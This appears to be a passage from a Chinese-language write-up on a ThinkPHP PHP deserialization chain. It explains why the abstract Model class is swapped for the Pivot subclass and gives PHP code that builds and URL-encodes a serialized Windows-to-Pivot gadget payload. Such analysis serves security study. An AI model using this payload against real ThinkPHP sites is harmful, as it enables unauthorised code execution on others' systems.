 ![](./pics/16.png)
可以发现`Model`也是一个抽象类，反序列化时也会报错，从而找到继承`Model`的非抽象类`think/model/Pivot.php`
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{

    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }
}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}

```
